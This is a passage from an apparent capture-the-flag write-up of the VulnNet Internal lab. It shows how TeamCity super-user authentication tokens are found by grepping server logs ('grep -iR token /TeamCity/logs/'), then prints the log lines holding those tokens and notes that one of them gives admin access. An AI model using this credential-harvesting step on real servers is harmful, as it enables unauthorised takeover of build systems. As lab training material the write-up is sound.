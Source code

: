 ![0xskar](/assets/vulnnet-internal03.png)

> The authentication token is automatically generated on every server start. The token is printed in the server console and teamcity-server.log under the TeamCity\logs directory (search for the "Super user authentication token" text). The line is printed on the server start and on any login page submit without a username specified.

- We unfortunatly dont have permissions to view this log, however ``grep -iR token /TeamCity/logs/ 2>/dev/null`` leads us to more tokens we can try, and the last token gives us access.

```
sys-internal@vulnnet-internal:/TeamCity/logs$ grep -iR token /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 1795373678433474178 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 1795373678433474178 (use empty username with the token as the password to access the server)
```
